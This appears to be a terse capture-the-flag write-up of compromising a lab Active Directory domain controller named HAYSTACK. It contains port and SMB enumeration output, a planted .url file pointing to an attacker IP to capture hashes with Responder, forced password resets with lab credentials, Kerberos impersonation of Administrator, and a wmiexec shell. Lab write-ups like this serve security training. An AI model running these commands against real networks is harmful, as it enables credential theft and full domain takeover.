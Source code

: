 IP 10.10.68.206

PORT     STATE SERVICE          REASON
53/tcp   open  domain           syn-ack ttl 125
88/tcp   open  kerberos-sec     syn-ack ttl 125
135/tcp  open  msrpc            syn-ack ttl 125
139/tcp  open  netbios-ssn      syn-ack ttl 125
389/tcp  open  ldap             syn-ack ttl 125
445/tcp  open  microsoft-ds     syn-ack ttl 125
464/tcp  open  kpasswd5         syn-ack ttl 125
593/tcp  open  http-rpc-epmap   syn-ack ttl 125
636/tcp  open  ldapssl          syn-ack ttl 125
3268/tcp open  globalcatLDAP    syn-ack ttl 125
3269/tcp open  globalcatLDAPssl syn-ack ttl 125
3389/tcp open  ms-wbt-server    syn-ack ttl 125

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

Is a domain controller

```bash
netexec smb -u 'kali' -p '' -d THM 10.10.68.206 --shares
```
SMB         10.10.68.206    445    HAYSTACK         Share           Permissions     Remark
SMB         10.10.68.206    445    HAYSTACK         -----           -----------     ------
SMB         10.10.68.206    445    HAYSTACK         ADMIN$                          Remote Admin
SMB         10.10.68.206    445    HAYSTACK         C$                              Default share
SMB         10.10.68.206    445    HAYSTACK         Data            READ,WRITE      
SMB         10.10.68.206    445    HAYSTACK         IPC$            READ            Remote IPC
SMB         10.10.68.206    445    HAYSTACK         NETLOGON                        Logon server share 
SMB         10.10.68.206    445    HAYSTACK         SYSVOL                          Logon server share 


SMB > Data > onboarding

  53s24knv.krd.pdf                    A  4700896  Mon Jul 17 04:11:53 2023
  aikehcql.civ.pdf                    A  3032659  Mon Jul 17 04:12:09 2023
  dtlwvmh4.0gm.txt                    A      521  Mon Aug 21 14:21:59 2023

PDF consistent, but txt and other files changed around

NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file, files were deleted and others in their place

Domain Name: THM
Name: HAYSTACK

domain:thm.corp

Responder

```
└─$ cat shell.url       
[InternetShortcut]
URL=bananas
WorkingDirectory=bananas
IconFile=\\10.13.77.49\\%USERNAME%.icon
IconIndex=1


responder -I tun0
```

```
└─$ bloodhound-python -c All -u 'TABATHA_BRITT' -p 'marlboro(1985)' -d thm.corp -ns 10.10.68.206 --zip

└─$ net rpc password 'CRUZ_HALL' 'P@55w0rd!' -U "thm.corp"/"SHAWNA_BRAY"%'P@55w0rd!' -S 10.10.68.206

(Continued up chain of accounts compromised. First set of creds in command is what ur setting, second is what ur authing with)

└─$ impacket-getST -k -impersonate Administrator -spn cifs/HayStack.thm.corp thm.corp/DARLA_WINTERS


└─$ export KRB5CCNAME=Administrator.ccache

└─$ impacket-wmiexec -k -no-pass Administrator@Haystack.thm.corp 


```
